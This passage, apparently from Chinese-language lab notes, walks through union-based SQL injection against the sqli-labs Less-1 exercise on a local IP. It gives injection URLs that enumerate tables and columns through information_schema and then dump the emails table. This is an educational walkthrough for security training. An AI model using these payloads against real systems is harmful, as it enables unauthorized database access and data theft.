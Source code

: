 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728005504175.png" alt="image-20220728005504175" style="zoom:50%;" />

**4.在回显位上打印出数据库的版本信息`version()`和数据库的名字`database()`**

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728010059930.png" alt="image-20220728010059930" style="zoom: 50%;" />

**5.使用information_schema.tables拿到数据库的表名集合和information_schema.columns拿到数据库的列名集合**

`注：information_schema是数据库系统自带的函数模块，其包含了所有数据库的简要信息，其中包含了两个重要的表，就是tables和columns。但是在平时的sql注入中information_schema很容易被服务器的防火墙识别出来，导致注入失败，而且一般情况下，数据库系统对tables和columns这两张表也是严防死守，很难突破。`

```sql
http://192.168.37.148/sql/Less-1/?id=-1' union select 1,table_name,3 from information_schema.tables -- 
```

如下图所示，利用2号回显位打印表名，但是只打印出了一个表的表名，于是，可以利用`group_concat`函数把所有的表名聚集在一行显示出来。

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728153048892.png" alt="image-20220728153048892" style="zoom:50%;" />

```sql
http://192.168.37.148/sql/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables -- 
```

![image-20220728155300362](C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728155300362.png)

**6.添加where条件限定，打印出security数据库的表名**

```sql
http://192.168.37.148/sql/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' -- 
```

![image-20220728155627975](C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728155627975.png)

**7.得到表名后，开始获取表里面的每一列**

使用`information_schema.columns`获取所有列，然后加上表的限定`where table_name='表名'`，在回显位上输出。

```sql
http://192.168.37.148/sql/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='emails' -- 
```

![image-20220728190813926](C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728190813926.png)

**8.得到emails表的列名之后，可以查询emails表里的内容了**

```sql
http://192.168.37.148/sql/Less-1/?id=-1' union select 1,group_concat(id),group_concat(email_id) from emails -- 
```

![image-20220728191206300](C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728191206300.png)



- #### order by和报错注入
